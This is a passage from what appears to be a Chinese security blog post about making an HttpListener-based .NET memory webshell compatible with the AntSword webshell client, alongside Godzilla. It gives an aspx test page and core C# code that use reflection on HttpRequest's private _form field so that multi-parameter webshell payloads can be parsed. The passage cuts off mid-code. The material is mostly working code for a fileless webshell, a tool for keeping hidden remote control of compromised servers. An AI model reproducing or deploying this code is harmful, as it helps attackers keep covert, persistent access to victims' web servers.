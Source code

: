 那么为什么Hiding连接哥斯拉还能成功呢？

那是因为哥斯拉从头到尾只需要一个参数，并且这一个参数是通过Hiding师傅自己实现的parse_post函数来解析出来的(https://github.com/A-D-Team/SharpMemshell/blob/main/HttpListener/memshell.cs#L151)

但是蚁剑是多个参数的模式，需要在payload中获取到参数才可以。


为了解决这个问题，我们其实没有必要再去凑一个HttpWorkerRequest，完全可以跳过这一步，直接反射调用最核心的_form字段的FillFromEncodedBytes函数，使得我们new出来的Request对象是一个可以完整使用的Request对象。

在这里我把核心代码抽象为一个aspx，测试我们构造出来的reqeust对象能否真正获取到请求的各个参数

```cpp
<%@ Page Language="C#" Debug=true%>
<%@ Import Namespace="System.Reflection" %>
<%
     byte[] rawData = new byte[Request.InputStream.Length];
     Request.InputStream.Read(rawData, 0, rawData.Length);
     HttpRequest req = new HttpRequest("", Request.Url.ToString(), Request.QueryString.ToString());
     FieldInfo field = req.GetType().GetField("_form", BindingFlags.Instance | BindingFlags.NonPublic);
     Type formtype = field.FieldType;
     MethodInfo method = formtype.GetMethod("FillFromEncodedBytes", BindingFlags.Instance | BindingFlags.NonPublic);
     ConstructorInfo constructor = formtype.GetConstructor(BindingFlags.NonPublic | BindingFlags.Instance, null, new Type[0], null);
     object obj = constructor.Invoke(null);
     method.Invoke(obj, new object[] { rawData, Request.ContentEncoding });
     field.SetValue(req, obj);
     Response.Write(req.Form["test"]);
%>
```

可以看到，我们新构造的request对象已经可以正确获取当前请求的key-value了

![img](https://cdn.nlark.com/yuque/0/2022/png/1599908/1645337259000-ed0664c7-eb8b-437b-9a1a-9cfc42fd4827.png)

## 核心代码

Talk is cheap, show me your code.

核心代码如下：

```cpp
HttpListenerContext context = listener.GetContext();
HttpListenerRequest request = context.Request;
HttpListenerResponse response = context.Response;
SetRespHeader(response);
Stream stm = null;
HttpContext httpContext;
try
{
    string data = new StreamReader(request.InputStream, request.ContentEncoding).ReadToEnd();
    byte[] rawData = System.Text.Encoding.Default.GetBytes(data);
    HttpRequest req = new HttpRequest("", request.Url.ToString(), request.QueryString.ToString());
    FieldInfo field = req.GetType().GetField("_form", BindingFlags.Instance | BindingFlags.NonPublic);
    Type formtype = field.FieldType;
    MethodInfo method = formtype.GetMethod("FillFromEncodedBytes",
                                           BindingFlags.Instance | BindingFlags.NonPublic);
    ConstructorInfo constructor =
        formtype.GetConstructor(BindingFlags.NonPublic | BindingFlags.Instance, null, new Type[0],
                                null);
    object obj = constructor.Invoke(null);
    method.Invoke(obj, new object[] { rawData, request.ContentEncoding });
    field.SetValue(req, obj);

```